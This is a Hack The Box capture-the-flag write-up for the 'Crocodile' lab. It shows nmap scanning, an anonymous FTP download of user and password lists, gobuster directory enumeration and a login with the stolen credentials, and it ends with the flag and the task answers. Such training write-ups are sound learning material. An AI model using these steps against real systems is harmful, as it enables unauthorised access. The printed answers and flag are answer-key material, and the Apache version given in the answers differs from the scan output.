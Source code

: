 # Crocodile
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Crocodile
* Topic: PHP, FTP, gobuster
* Difficulty: Very easy
* Date: 13-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What nmap scanning switch employs the use of default scripts during a scan? 
 - **-sC**
2. What service version is found to be running on port 21? 
- **vsftpd 3.0.3**
3. What FTP code is returned to us for the "Anonymous FTP login allowed" message? 
- **230**
4. What command can we use to download the files we find on the FTP server? 
- **get**
5. What is one of the higher-privilege sounding usernames in the list we retrieved? 
- **admin**
6. What version of Apache HTTP Server is running on the target host? 
- **2.4.4**
7. What is the name of a handy web site analysis plug-in we can install in our browser? 
- **Wappalyzer**
8. What switch can we use with gobuster to specify we are looking for specific filetypes? 
- **-x**
9. What file have we found that can provide us a foothold on the target? 
- **login.php**

---
## Flag:
Nmap scan:

```
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.52.16
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 14:18 EDT
Nmap scan report for 10.129.52.16
Host is up (0.072s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.15
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.06 seconds
```

We can see that ftp is hosted on port 21, also it os open and we can see two files in plain sight. We will use `ftp` to connect and `get` to download the files to our local machine

Type `exit` to gracefully close the connection afterwards.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ ftp 10.129.21.75
Connected to 10.129.21.75.
220 (vsFTPd 3.0.3)
Name (10.129.21.75:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||47650|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |******************************************|    33      228.55 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.44 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||47203|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |******************************************|    62      438.74 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.91 KiB/s)
ftp> exit
221 Goodbye.

┌──(kali㉿kali)-[~/Downloads]
└─$ ll
total 8
-rw-r--r-- 1 kali kali 33 Jun  8  2021 allowed.userlist
-rw-r--r-- 1 kali kali 62 Apr 20  2021 allowed.userlist.passwd
```

We got the files, let's see what they contain using `cat`.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
                     
┌──(kali㉿kali)-[~/Downloads]
└─$ cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd

```

Some users and their passwords, let's find a place to log in.

![](./attachments/Pasted%20image%2020220413002627.png)

There are no login options anywhere on the page.

We can use `gobuster` to enumerate (bruteforce) hidden directories.

Command:

`gobuster dir --url 10.129.124.147 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html`

`--url`: Specify the url (directory) we want to enumerate.

`dir`: Enumerate directories, not DNS ex.

`--wordlist`: Use this list (list of common directory names).

`-x`: Find files in .php and .html format.

```console
┌──(kali㉿kali)-[~]
└─$ gobuster dir --url 10.129.124.147 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.124.147
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
2022/04/12 18:30:03 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 58565]
/login.php            (Status: 200) [Size: 1577] 
Progress: 312 / 262995 (0.12%)
```

`/login.php` seems useful.

![](./attachments/Pasted%20image%2020220413003253.png)

Now we can try the credentials we found.

User:pass `admin:rKXM59ESxesUFHAd`

![](./attachments/Pasted%20image%2020220413003420.png)

The flag.

**Flag:** `c7110277ac44d78b6a9fff2232434d16`

---
**Tags:** [[Hack The Box]]